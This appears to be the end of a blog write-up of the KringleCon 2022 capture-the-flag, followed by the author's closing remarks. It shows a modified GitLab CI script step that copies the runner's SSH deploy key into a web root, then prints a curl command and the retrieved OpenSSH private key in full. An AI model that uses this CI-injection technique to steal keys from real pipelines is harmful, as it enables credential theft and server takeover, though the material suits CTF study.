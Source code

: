 ## Alternate solution

An even simpler solution suggested by Minkowski: sync the private key on the server, no need for a fancy reverse shell. So if I modified the script like this:

        script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress /etc/gitlab-runner/ root@wordpress.flag.net.internal:/var/www/html

And curl it:

        grinchum-land:~/wordpress.flag.net.internal$ curl wordpress.flag.net.internal/hhc22-wordpress-deploy
        -----BEGIN OPENSSH PRIVATE KEY-----
        b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
        QyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3wAAAJiMXr0BjF69
        AQAAAAtzc2gtZWQyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3w
        AAAEBtNE6sqOFoqkmOhcB/9DgzaQhQRC/bwkAbsBXwqrt/mPwRh1lM6l/lES5Zcxv0UoIV
        aiIhfYehTVof3RXQ+2rfAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
        -----END OPENSSH PRIVATE KEY-----

## See you next year Santa!

It's the third time I manage to complete Kringlecon, I learned tons of cool stuff and had lot of fun. Last year I submitted a [writeup](https://lolkatz.github.io/will-hack-for-coffee/writeups/Kringlecon2021.pdf) and I had an [honorable mention](https://www.sans.org/mlp/holiday-hack-challenge/winners-and-answers/). One of the challenge was to flash the firmware of a printer but I stumbled on the answer without actually doing the challenge and I tought I would have time to come back to do it later. The writeup took way longer than I tought so Minkowski saved the day again and gave me a recipe (just be warned, the code might need a little extra work!). If you are curious to try, the challenges from the last three years stay available all year round. Until next time, stay on Santa nice list.

[^1]: Not my NFT, not my wallet and not a real cryptocurrency.